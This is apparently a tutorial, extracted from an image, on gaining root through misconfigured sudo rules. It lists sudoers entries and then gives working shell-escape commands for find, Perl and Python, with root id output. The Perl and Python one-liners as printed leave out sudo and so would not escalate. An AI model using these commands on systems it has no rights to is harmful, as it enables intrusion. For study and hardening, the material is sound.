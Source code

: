 # Default Method to assign Root Privilege
Default Method to assign Root Privilege to usertest under User Privilege Specification category.
visudo
usertest ALL=ALL
or
usertest ALL=(root) ALL

# Allow Root Privilege to Binary commands
Sometimes the user has the authorization to execute any file or command of a particular directory such as /bin/cp, /bin/cat or /usr/bin/ find, this type of permission lead to privilege escalation for root access and it can be implemented with help of following steps.
usertest ALL=(root) NOPASSWD: /usr/bin/find
NOTE: Here NOPASSWD tag that means no password will be requested for the user while running sudo -l command.

# Spawn Root Access using Find Command
compromised the Victim’s system and then move for privilege escalation phase and execute below command to view sudo user list.
sudo -l
>	User usertest may run the following commands on ubuntu
>	(root) NOPASSWD: /usr/bin/find
indicating that the usertest can run any command through find command. Therefore we got root access by executing below commands.
sudo find /home -exec /bin/bash \;
id
>	uid=0(root) gid=0(root) groups=0(root)

# Allow Root Privilege to Binary Programs
Sometimes admin assigns delicate authorities to a particular user to run binary programs which allow a user to edit any system files such as /etc/passwd and so on. certain binary programs lead to privilege escalation. In the following command we have assign sudo rights to the following program which can be run as root user.
usertest ALL= (root) NOPASSWD: usr/bin/perl, /usr/bin/python, /usr/bin/less, /usr/bin/awk, /usr/bin/man, /usr/bin/vi

# Spawn shell using Perl one-liner
At the time of privilege, escalation phase executes below command to view sudo user list.
sudo -l
Now you can observe the text is showing that the usertest can run Perl language program or script as root user. (/usr/bin/perl) Therefore we got root access by executing Perl one-liner.
perl -e 'exec "/bin/bash";'

# Spawn shell using Python one-liner
requires that the user can run the python language or script as root user. (/usr/bin/python) this can be determined by running
sudo -l
thus we can aquire root access by executing the python one-liner
python -c 'import pty;pty.spawn("/bin/bash")'

